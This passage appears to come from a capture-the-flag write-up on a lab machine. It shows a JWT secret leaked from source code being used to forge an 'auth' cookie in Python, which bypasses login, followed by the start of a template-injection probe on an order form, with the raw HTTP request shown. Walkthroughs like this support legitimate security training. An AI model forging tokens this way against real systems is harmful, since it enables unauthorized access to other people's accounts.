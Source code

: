 
It seems like perhaps the function will someday be used in the tracking for the application, but for now, it doesn’t do much. It does have a `secret` variable though.

### Access Costume Site

I can guess (hope) that perhaps the same secret used in this lambda function is used to sign the JWT for the site. I haven’t been able to get a cookie to verify it, so I’ll just forge one and see if it’s accepted. What’s important about the cookie is that it contain a `username` field.

```

oxdf@hacky$ python
Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> secret = "RrXCv`mrNe!K!4+5`wYq"
>>> jwt.encode({"username":"0xdf"}, secret, algorithm='HS256')
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE'

```

I’ll also note in the code that the token was taken from the cookie named `auth`. I’ll add that cookie in the Firefox dev tools:

[![image-20220309151115326](https://0xdfimages.gitlab.io/img/image-20220309151115326.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220309151115326.png)

On visiting `/home`, it doesn’t redirect:

![image-20220309151137447](https://0xdfimages.gitlab.io/img/image-20220309151137447.png)

### SSTI

#### Find

I noted during the source analysis that there could be an SSTI in `/order`. Visiting that page, there’s a form:

![image-20220309151229557](https://0xdfimages.gitlab.io/img/image-20220309151229557.png)

The costume field is a drop down selection:

![image-20220309151247211](https://0xdfimages.gitlab.io/img/image-20220309151247211.png)

On submitting, the page updates to show a message under the form:

![image-20220309151320075](https://0xdfimages.gitlab.io/img/image-20220309151320075.png)

The post request looks like:

```

POST /order HTTP/1.1
Host: 10.10.11.134:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://10.10.11.134:5000
Connection: close
Referer: http://10.10.11.134:5000/order
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE
```